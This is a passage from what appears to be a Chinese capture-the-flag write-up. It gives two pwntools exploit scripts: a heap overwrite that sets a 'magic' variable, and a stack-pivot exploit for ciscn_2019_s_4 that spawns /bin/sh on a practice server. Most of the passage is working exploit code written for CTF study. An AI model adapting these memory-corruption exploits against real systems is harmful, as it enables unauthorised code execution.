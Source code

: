 ```python
	p.sendline(content)
	
def delete(index):
	p.recvuntil('Your choice :')
	p.sendline('3')
	p.recvuntil('Index :')
	p.sendline(str(index))

magic = elf.symbols['magic']
print(hex(magic))
add(0x10, 'a'*(0x10))
add(0x80, 'b'*0x10)
add(0x10, 'c'*(0x10))

delete(1)
payload = 'a'*0x10 + p64(0) + p64(0x91) + p64(0) + p64(magic-0x10)
edit(0, len(payload), payload)
add(0x80, 'teapot')
p.sendline('4869')
p.interactive()
	
```



## ciscn_2019_s_4

栈迁移，网上部分师傅wp中的示意图是错的，建议自己动手调试调试。

可参考：[[原创\]栈迁移原理（图示）-Pwn-看雪论坛-安全社区|安全招聘|bbs.pediy.com](https://bbs.pediy.com/thread-258030.htm)

```python
from pwn_debug import *
context.log_level = 'debug'

p = process('./ciscn_s_4')
p = remote('node4.buuoj.cn', 27158)
elf = ELF('./ciscn_s_4')

sys_addr = elf.symbols['system']
print(hex(sys_addr))

p.recv()
payload = 'a'*(0x24) + 'b'*4
p.send(payload)
p.recvuntil('bbbb')
buf = u32(p.recv(4).ljust(4, '\x00'))-0x38
print(hex(buf))
payload2 = p32(sys_addr) + 'aaaa' + p32(buf+12) + '/bin/sh\x00'
payload2 = payload2.ljust(0x28, 'a')
payload2 += p32(buf-4) + p32(0x080485FD)

p.send(payload2)
p.interactive()

```
